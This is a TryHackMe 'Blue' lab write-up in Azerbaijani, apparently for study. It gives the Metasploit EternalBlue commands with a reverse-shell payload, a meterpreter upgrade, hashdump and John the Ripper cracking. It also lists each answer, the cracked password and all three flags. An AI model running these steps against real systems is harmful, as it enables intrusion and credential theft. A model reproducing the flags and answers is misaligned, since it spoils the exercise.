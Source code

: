 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

`nmap -sV -p 1-1000 -sC -T4 <target-ip>`

Cavab: Açıq portlar 1000-dən aşağı → `3`

Screenshot: ![Nmap Scan](screenshots/nmap.png)

Vulnerability identification:

Cavab: `ms17-010`

## Task 2: Gain Access
Metasploit-i işə sal:



`msfconsole`
Exploit modulunu seç:



`use exploit/windows/smb/ms17_010_eternalblue`
Cavab: `exploit/windows/smb/ms17_010_eternalblue`

Əsas parametrin set edilməsi:


`set RHOSTS <target-ip>`
Cavab: `RHOSTS`

Screenshot:  ![Rhosts](screenshots/Rhosts.png)

Payload təyin et:


`set payload windows/x64/shell/reverse_tcp`
Exploit-i işə sal:


`exploit`
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:


`use post/multi/manage/shell_to_meterpreter`
Cavab: `post/multi/manage/shell_to_meterpreter`

Əsas parametrin set edilməsi:


`set SESSION 1`
Cavab: `SESSION`

Post modulunu çalışdır:


`exploit`
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:


`getsystem`

Cavab: NT AUTHORITY\SYSTEM



## Task 4: Cracking
Password hash-ləri dump et:


`hashdump`
Cavab: `Jon`



Hash-i fayla yaz:


`nano hashjon.txt`
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt`
Cavab: `alqfna22`

Screenshot:  ![John](screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:


`cd /`
`cat flag1.txt`
Cavab: `flag{access_the_machine}`

Screenshot:  ![flag1](screenshots/flag1.png)

Flag2 – Windows parol qovluğu:


`cd windows/System32/config`
`cat flag2.txt`
Cavab: `flag{sam_database_elevated_access}`

Screenshot:  ![flag2](screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):


`cd /Users/Jon/Documents`
cat `flag3.txt`
Cavab: `flag{admin_documents_can_be_valuable}`


Screenshot:  ![flag3](screenshots/flag3.png)





